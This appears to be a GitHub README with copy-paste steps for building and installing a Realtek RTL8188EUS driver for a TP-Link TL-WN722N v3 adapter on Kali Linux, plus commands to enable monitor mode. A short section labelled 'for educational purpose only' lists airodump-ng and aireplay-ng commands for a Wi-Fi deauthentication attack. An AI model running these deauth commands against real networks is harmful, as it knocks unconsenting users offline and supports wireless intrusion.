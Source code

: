 # tp-link-v3-TL-WN722N
realtek-rtl8188eus-dkms packaging for Kali Linux

## copy  and past the below commands

sudo  apt update

sudo apt dist-upgrade

reboot

sudo apt install linux-headers-$(uname -r) 

sudo apt install bc

sudo rmmod r8188eu.ko

sudo git clone https://github.com/keralahacker/tp-link-v3-usb

cd tp-link-v3-usb

sudo unzip realtek-rtl8188eus-keralahacker.zip

cd realtek-rtl8188eus-dkms-kali-master 

sudo -i

echo "blacklist r8188eu.ko" > "/etc/modprobe.d/realtek.conf"

exit

sudo make

sudo make install

sudo modprobe 8188eu


----------------------------------------------------------------------------------
#### if you face any issues ===> 
https://github.com/keralahacker/tp-link-v3-usb/issues/new 
#### submit with screenshot
----------------------------------------------------------------------------------

## To enable Monitor mode

ifconfig wlan0 down

airmon-ng check kill

iwconfig wlan0 mode monitor

ifconfig wlan0 up

iwconfig                                     \\check mode: monitor



### Deauthentication Attack[for educational purpose only]



airodump-ng wlan0

airodump-ng --bssid <id> --channel <ch> --write test wlan0

aireplay-ng --deauth [any no.] -a <bssid> -c <station id> wlan0


## Important note: 

If after restarting your kali machine doesn't recognise your device..
As lot of people are facing the same problem ..
I have a solution for you..
Whenever you restart your kali OS
Insert the adapter and run the command


sudo rmmod r8188eu.ko

sudo modprobe 8188eu

Disconnect the device and connect again..

